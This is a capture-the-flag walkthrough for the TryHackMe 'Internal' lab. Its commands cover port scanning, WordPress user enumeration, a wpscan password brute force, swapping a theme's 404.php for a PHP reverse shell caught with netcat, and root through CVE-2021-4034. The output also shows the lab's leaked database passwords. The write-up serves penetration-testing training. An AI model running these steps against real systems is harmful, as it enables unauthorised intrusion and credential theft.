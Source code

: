 <!-- TOC -->

- [Internal](#internal)
    - [Scope of Work](#scope-of-work)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)
        - [Shell Stabilization](#shell-stabilization)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Internal

[Internal Room](https://tryhackme.com/room/internal)

Penetration Testing Challenge

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

## Scope of Work

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

Note - this room can be completed without Metasploit

| Title | IP Address |
| :---- | :---- |
| Internal | 10.10.86.124 |

## Discovery and Scanning

```bash
sudo nmap -p- -T4 -Pn 10.10.86.124
nmap -p22,80 -sV -sC -T4 -Pn -oA initial 10.10.86.124
```

> ```
> . . .
> PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
> |   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
> |_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
> 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
> |_http-title: Apache2 Ubuntu Default Page: It works
> |_http-server-header: Apache/2.4.29 (Ubuntu)
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

```bash
dirsearch -u 10.10.86.124 -r -t 120
```

> ```
> . . .
> [22:54:33] 200 -    4KB - /blog/wp-login.php                                
> [22:54:33] 301 -  311B  - /blog  ->  http://10.10.86.124/blog/     (Added to queue)
> [22:54:33] 200 -   53KB - /blog/                                            
> [22:55:00] 200 -   11KB - /index.html                                       
> [22:55:03] 301 -  317B  - /javascript  ->  http://10.10.86.124/javascript/     (Added to queue)
> [22:55:24] 200 -   13KB - /phpmyadmin/doc/html/index.html                   
> [22:55:26] 301 -  317B  - /phpmyadmin  ->  http://10.10.86.124/phpmyadmin/     (Added to queue)
> [22:55:29] 200 -   10KB - /phpmyadmin/                                      
> [22:55:29] 200 -   10KB - /phpmyadmin/index.php                             
> [22:55:40] 403 -  277B  - /server-status                                    
> [22:55:41] 403 -  277B  - /server-status/     (Added to queue)              
> [22:56:06] 200 -    4KB - /wordpress/wp-login.php
> . . .
> ```

```
sudo echo "10.10.86.124 internal.thm" >> /etc/hosts
wpscan --url http://internal.thm/blog -e vp,vt,u --api-token *******************************************
```

> ```
> . . .
> [!] 12 vulnerabilities identified:
> . . .
> . . .
> [+] WordPress theme in use: twentyseventeen
>  | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
>  | Last Updated: 2022-05-24T00:00:00.000Z
>  | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
>  | [!] The version is out of date, the latest version is 3.0
>  | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
>  | Style Name: Twenty Seventeen
> . . .
> . . .
> [+] admin
>  | Found By: Author Posts - Author Pattern (Passive Detection)
>  | Confirmed By:
>  |  Rss Generator (Passive Detection)
>  |  Wp Json Api (Aggressive Detection)
>  |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
>  |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
>  |  Login Error Messages (Aggressive Detection)
> . . .
> ```

```bash
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 100
```

> ```
> . . .
> [+] Performing password attack on Xmlrpc against 1 user/s
> [SUCCESS] - admin / m******
> . . .
> . . .
> [!] Valid Combinations Found:
>  | Username: admin, Password: m******
> . . .
> ```

## Exploitation

Using `admin:m******`

Go to: `http://internal.thm/blog/wp-login.php`

Replace the `404.php` with [Pentestmonkey php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![404_template](404_template.png)

```bash
sudo nc -lvnp 80
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

### Shell Stabilization

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
- `ctrl` + `z`

```bash
stty -a
stty raw -echo; fg
stty rows 34 cols 95
```

Using `linpease`:

> ```
> . . .
> ╔══════════╣ CVEs Check
> Vulnerable to CVE-2021-4034
> . . .
> ╔══════════╣ Users with console
> aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
> root:x:0:0:root:/root:/bin/bash
> . . .
> ╔══════════╣ Analyzing Wordpress Files (limit 70)
> -rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/> wordpress/wp-config.php
> define( 'DB_NAME', 'wordpress' );
> define( 'DB_USER', 'wordpress' );
> define( 'DB_PASSWORD', 'wordpress123' );
> define( 'DB_HOST', 'localhost' );
> . . .
> $dbpass='B2Ud4fEOZmVq';
> $dbuser='phpmyadmin';
> . . .
> ```

## Privilege Escalation

Using [CVE-2021-4034](https://www.exploit-db.com/exploits/50689):

```bash
find / -type f -name user.txt
cat /****/*********/user.txt
```

> `THM{********_****_*}`

```bash
find / -type f -name root.txt
cat /****/root.txt
```

> `THM{******_*********}`

